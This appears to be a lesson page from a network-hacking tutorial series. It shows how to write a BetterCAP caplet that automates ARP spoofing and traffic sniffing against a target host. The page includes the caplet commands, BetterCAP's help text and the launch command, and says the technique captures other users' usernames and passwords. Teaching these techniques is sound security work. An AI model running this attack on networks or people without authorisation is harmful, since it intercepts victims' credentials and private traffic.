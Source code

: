 ```yaml
---
title: Creating a Custom Spoofing Script
type: default
layout: page
child: Hacking
fold: Network Hacking
---
```


In the previous lessons, we learned how to use BetterCAP to discover all the
clients on our same network, run an ARP Spoofing attack to intercept the data
and then sniff data to see the usernames, passwords and everything that's
getting sent over the network. In order to do this, we have to run a lot
of commands, first of all, we had to run `net.probe on` to turn on the
probe module, we had to set the settings for the `arp.spoof` module, turn
it on and turn the sniffing module on.

Every time you want to run an ARP Spoofing attack and spy your targets, you are
going to do all the steps previously mentioned, or if you would like to make
this process automatically, you can create a caplet, which is exactly what I
want to show you in this lesson.

> A caplet is just a text file that contains all the commands that you want to run
> .

To create a caplet, create a text file using the editor of your choice, emacs,
vim, nano, ed, etcetera and let's go through all the commands we had to run to
create our caplet.

The first thing that we had to run, was `net.probe on`, so let's copy that
command and let's paste it in our text file. The next thing that we made, was
to modify the settings of the _arp.spoof_ module, we executed _set
arp.spoof.fullduplex true_, then we set the target(s) IP with the command
_set arp.spoof.targets 192.168.1.7_ (make sure that every time you run this
caplet, you make sure that the target's IP address stays the same), then, we
turned on the _arp.spoof_ module by executing _arp.spoof on_ and finally we also
run the sniffer by doing _net.sniff on_. You caplet file should look like the
following:

```bash
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.7
arp.spoof on
net.sniff on
```

Once you have finished pasting the commands, we can now save the file, I will
set mine's name as _arp.cap_.

Once we have finished, all we have to do now, is feed the caplet file to
Bettercap before we start it, so all the commands will be executed
automatically. As we currently don't know how to do this, let's execute
_bettercap --help_ to see all the BetterCAP options.

```bash
Usage of ./bettercap:
  -autostart string
        Comma separated list of modules to auto start. (default "events.stream")
  -caplet string
        Read commands from this file and execute them in the interactive session.
  -cpu-profile file
        Write cpu profile file.
  -debug
        Print debug messages.
  -env-file string
        Load environment variables from this file if found, set to empty to disable environment persistence.
  -eval string
        Run one or more commands separated by ; in the interactive session, used to set variables via command line.
  -gateway-override string
        Use the provided IP address instead of the default gateway. If not specified or invalid, the default gateway will be used.
  -iface string
        Network interface to bind to, if empty the default interface will be auto selected.
  -mem-profile file
        Write memory profile to file.
  -no-colors
        Disable output color effects.
  -no-history
        Disable interactive session history file.
  -silent
        Suppress all logs which are not errors.
  -version
        Print the version and exit.
```

The option we want to use is the _-caplet_ option. So, we are going to execute
BetterCAP like we used to do it, first of all, we do _bettercap_ followed by
_-iface_ to specify the interface that is connected to the target network, in my
case it is _enp1s0_ and now, we are going to append _-caplet_ followed by the
path of the file we created previously. If you saved your file in your home
directory, for example, the command will look like this:

```bash
bettercap -iface enp1s0 -caplet ~/arp.cap
```

Once you execute that command, the modules and the settings specified on the
caplet file will be automatically applied.
